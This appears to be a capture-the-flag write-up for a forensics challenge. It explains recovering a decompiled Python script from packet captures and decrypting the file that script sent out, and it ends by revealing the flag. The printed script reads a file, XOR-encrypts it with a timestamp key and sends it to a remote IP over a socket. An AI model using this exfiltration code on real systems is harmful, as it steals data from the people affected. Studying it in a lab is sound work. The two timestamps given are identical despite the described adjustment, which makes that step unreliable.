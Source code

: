 ## SLINGSHOT

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

Exporting files from all packets in Wireshark will result in many files called %, etc and one called download.pyc
This file can be decompiled to python using [PyLingual](https://pylingual.io/view_chimera?identifier=b8c58f248600bfa1f83337bd7bb8f6f5a64a16219e56db0e3a2257ca23afc623):

```py
# Source timestamp: 2024-09-17 17:47:38 UTC (1726595258)
import sys
import socket
import time
import math

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993

with open(file, 'rb') as r:
    data_bytes = r.read()

current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))

s.connect((ip, port))
s.send(encrypt_bytes)
```

The program connects to some ip using port `22993`. Follow the TCP stream for traffic at this port in Wireshark to get the output from the python program. The python program can now be reversed with ChatGPT to get the original file.
There is only one problem. The timestamp for when the program was run is needed to decrypt the message. What we have so far is the timestamp for when the file was created.

To get the correct timestamp first try the timestamp `1726595769` and look at the output. The output is very close to correct, but there are some wierd artifacts. We just need to adjust one number at the time until the words of the file are readably correct. We end up with the timestamp `1726595769`:

```py
import socket

# Open file
with open("dump2.bin", 'rb') as f:
    encrypted_bytes = f.read()

# Timestamp
key_bytes = "1726595769".encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(encrypted_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# Decrypt using XOR
decrypted_bytes = bytes((a ^ b for a, b in zip(key_bytes, encrypted_bytes)))

# Optionally, save the decrypted data to a file
with open("flag.png", 'wb') as f:
    f.write(decrypted_bytes)
```

This creates an image with the flag printed on to it-.

<details>
<summary>Flagg</summary>

`PCTF{1f_y0o_41n7_f1r57_y0ur3_l457}`
</details>